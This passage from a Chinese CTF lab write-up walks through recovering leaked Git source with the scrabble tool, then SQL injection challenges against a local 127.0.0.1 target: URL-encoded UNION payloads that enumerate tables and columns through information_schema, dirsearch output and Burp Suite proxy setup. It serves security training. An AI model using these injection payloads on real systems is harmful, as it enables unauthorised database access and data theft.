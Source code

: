 3. 使用 [scrabble](https://github.com/denny0223/scrabble) 工具，成功获到源码，拿到 flag。
> 重新初始化已存在的 Git 仓库于 /home/chang/compose/ctf/tools/scrabble/.git/
> parseCommit 213b7e386e9b0b406d91fae58bf8be11a58c3f88
> downloadBlob 213b7e386e9b0b406d91fae58bf8be11a58c3f88
> parseTree f46fbac4149604ca13a765950f9a2d1fd8c1c7ad
> downloadBlob f46fbac4149604ca13a765950f9a2d1fd8c1c7ad
> downloadBlob 1e0db5d96b5cc9785055c14bbec0e7ad14f48151
> HEAD 现在位于 213b7e3 flag

## 1.2 SQL注入
### 1.2.1 SQL注入-1
1. 127.0.0.1/index.php?id=2-1 的结果与 127.0.0.1/index.php?id=2 相同，说明不存在数字型注入。

2. 尝试 127.0.0.1/index.php?id=2-1%27%23，发现页面有显示内容，说明是字符型注入。
   - %27：单引号 '
   - %23：注释 #
  
3. 尝试 UNION 注入，127.0.0.1/index.php?id=-1%27union%20select%201,2,3%23，发现成功返回数据。说明是 select 1,2,3 形式，并且1不会显示，3是用户输入的数据，2是数据库数据。
  
4. 尝试获取表明 `127.0.0.1/index.php?id=-1%27union%20select%201,group_concat(table_name),1%20from%20information_schema.tables%20where%20table_schema=database()%23`，得到 fl4g，notes 两个表。
  
5. 分别尝试获取列名。`127.0.0.1/index.php?id=-1%27union%20select%201,group_concat(column_name),1%20from%20information_schema.columns%20where%20table_name=%27fl4g%27%23`。在 fl4g 中获得 flag。

### 1.2.2 SQL注入-2 
1. 访问 127.0.0.1，服务器返回 Forbidden，说明入口错误。尝试使用 dirsearch 工具扫描目录，发现 login.php、user.php 状态是200，找到入口。
```
200     2KB  http://127.0.0.1:80/login.php
403   289B   http://127.0.0.1:80/server-status
403   290B   http://127.0.0.1:80/server-status/
200    11B   http://127.0.0.1:80/user.php
```

2. 访问 http://127.0.0.1:80/login.php ，随机使用账号密码登录，未发现异常。查看源码，发现注释中有提示：`如果觉得太难了，可以在url后加入?tips=1 开启mysql错误提示,使用burp发包就可以看到啦`
  
3. 安装 burp suit 社区版
  下载链接：https://portswigger.net/burp/releases/professional-community-2021-2-1
  安装命令：`sh burpsuite_community_linux_v2021_2_1.sh` 

4. 配置 burp suit
> 1. 进入 Proxy ->  option，选择 add，端口用 8080，选择  Loopback only。
> 2. 进入浏览器的代理设置，http/https 代理均设为 127.0.0.1，端口 8080。(与 burp 内设置的一致)
![burp proxy](https://cdn.jsdelivr.net/gh/cs-cshi/image-host/%E4%BB%8E0%E5%88%B01%EF%BC%88CTFer%E6%88%90%E9%95%BF%E4%B9%8B%E8%B7%AF%EF%BC%89/wp_burp_proxy.png)

5. 使用 burp suit 抓包、发包。
> 进入 Proxy -> intercep 页面。如果浏览器与 burp 设置成功，浏览器发出的包会先到 burp，burp 中可对这个包执行修改、转发、丢弃等等操作。在 intercep 这行一系列对包的操作。
![burp intercept](https://cdn.jsdelivr.net/gh/cs-cshi/image-host/%E4%BB%8E0%E5%88%B01%EF%BC%88CTFer%E6%88%90%E9%95%BF%E4%B9%8B%E8%B7%AF%EF%BC%89/wp_burp_intercept.png)

6. 火狐浏览器会自动周期性的发包，可先在火狐浏览器核心设置中取消这周期性的发包，具体发的包可以 burp 中 Proxy菜单下的 HTTP history 页面中看到。
   
